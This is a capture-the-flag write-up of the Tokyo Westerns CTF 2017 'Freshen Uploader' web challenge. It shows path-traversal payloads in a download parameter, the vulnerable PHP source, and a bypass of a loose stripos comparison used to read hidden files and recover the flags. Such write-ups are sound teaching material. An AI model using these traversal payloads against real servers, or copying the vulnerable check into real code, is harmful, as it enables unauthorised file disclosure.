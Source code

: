 +++
title="Tokyo Westerns CTF 2017 - Web 1 - Freshen Uploader"
date="2017-09-04"
description="A web challenge, where we have a exploit a LFI and then a vulnerable type check in PHP against return value of a string function named 'stripos'"
author="Nagesh Podilapu"
aliases=["2017/09/04/tokyo-westerns-ctf-web-1.html"]
[taxonomies]
tags=["ctf", "web", "php"]
+++

In this challenge they provided a simple web page hosted at http://fup.chal.ctf.westerns.tokyo/ (Only available during competition).

![Front page of the given challenge](home_page.png)

All this page has is a download link, so I quickly had a look at the download link.

```
http://fup.chal.ctf.westerns.tokyo/download.php?f=6a92b449761226434f5fce6c8e87295a
```

Ah oh! Looks like we can change URL parameter **f**, so I tried to download the script **download.php** by changing parameter value to **f=../download.php**. Yay! It worked! so this is an LFI.

```php
<?php
// TWCTF{then_can_y0u_read_file_list?}
$filename = $_GET['f'];
if(stripos($filename, 'file_list') != false) die();
header("Content-Type: application/octet-stream");
header("Content-Disposition: attachment; filename='$filename'");
readfile("uploads/$filename");
?>
```

We got our first flag: **TWCTF{then_can_y0u_read_file_list?}**.

So we still need to read file_list to get another flag. Well! we went ahead and downloaded **index.php** this time.

```php
<?php
include('file_list.php');
?>
... some redacted HTML code ...
```

So, we need to download source code of file_list.php as well. But! the condition **stripos($filename, 'file_list') != false) die();** is not letting us download this file. Somehow we need to bypass this.

After a few minutes of struggle to understand what's wrong, my eyes glazed over **!=** operator which will not check type. So, I quickly opened up a php interpreter on my machine to do some trails.

```
php > if(stripos("file_list.php","file_list") != false) print "I'm here";
php > if(stripos("hello file_list.php","file_list") != false) print "I'm here";
I'm here
php > echo stripos("file_list.php","file_list");
0
php > echo stripos("hello file_list.php","file_list");
6
```

From the above, it looks like stripos is taking a source string as first parameter and substring to find as a second parameter then it's returning the first index where it found the given substring. So, by putting the string **file_list** at the very beginning of parameter **'f'** will make the result of stripos to zero, which will bypass the condition. Awesome! Now all we need to do is **f=file_list/../../file_list.php**

```php
<?php
$files = [
  [FALSE, 1, 'test.cpp', 192, '6a92b449761226434f5fce6c8e87295a'],
  [FALSE, 2, 'test.c', 325, '27259bca9edf408829bb749969449550'],
  [TRUE, 3, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213', 1337, 'flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213'],
  [FALSE, 4, 'test.py', 94, '951470281beb8a490a941ac73bd10953'],
];
?>
```

Well! we have the secret file name where our flag is **flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

Now we can download the file simply by using the payload **f=flag_ef02dee64eb575d84ba626a78ad4e0243aeefd19145bc6502efe7018c4085213**.

And the flag is: **TWCTF{php_is_very_secure}**

A little sarcasm included ¯\\_(ツ)_/¯
